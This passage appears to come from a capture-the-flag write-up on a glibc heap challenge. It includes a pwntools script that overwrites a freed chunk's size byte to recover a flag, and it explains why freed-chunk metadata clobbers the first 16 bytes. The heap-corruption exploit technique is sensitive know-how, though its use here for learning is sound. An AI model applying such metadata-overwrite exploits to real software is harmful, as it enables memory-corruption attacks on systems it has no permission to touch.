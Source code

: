 Our aim is to make chunk3 be the same pointer as flag_chunk, and that when we ask for chunk3 we only need to overwrite 1 byte. So let's overwrite the size metadata of the free flag_chunk to make it say that it's 16 bytes in size.

When check is called for the first time, the pointer for flag_chunk is returned because it's in the 128-byte bin. However, when the pointer is freed, it's put in the 16-byte bin.

When we call getchunk() and pass in size 1, we should get a pointer to the recently-freed flag_chunk in the 16-byte bin!

Let's try it out with a quick pwntools script:

```python
from pwn import *

io = process("./chal")


io.sendlineafter(b"size:", b'8')
io.sendlineafter(b"data:", b'A'*8)

io.sendlineafter(b"size:", b'64')
io.sendlineafter(b"data:", b'A'*64)

io.sendlineafter(b"index:", b'72')
io.sendlineafter(b"character:", b'\x21') # new size is now 16 + 17

io.sendlineafter(b"size:", b'1')
io.sendlineafter(b"data", b'I')

io.interactive()
```

When we run it, we get:
```
I\xbb\x83\\x05is not the flag.
```

Wait, what?

## Why didn't this work?

When I did this challenge, I really thought this would work. After some searching however, I realized the mistake: I overlooked an important part of the `free` function. You see, when you free memory, you tell the libc that it's
free for reuse. And indeed, glibc does reuse it pretty much immediately. The freed chunk is repurposed to store more metadata about the chunk, such as a pointer to the next element in the bin it's in. This metadata takes up 16
bytes. That means after the flag_chunk is freed, the first 16 bytes of the flag are overwritten pretty much immediately.

If we modify our script to ask for a chunk of size 16 rather than 1, we can get the remainder of the flag:

```
...
io.sendlineafter(b"size:", b'16') 
io.sendlineafter(b"data", b'I'*16)

io.interactive()
```
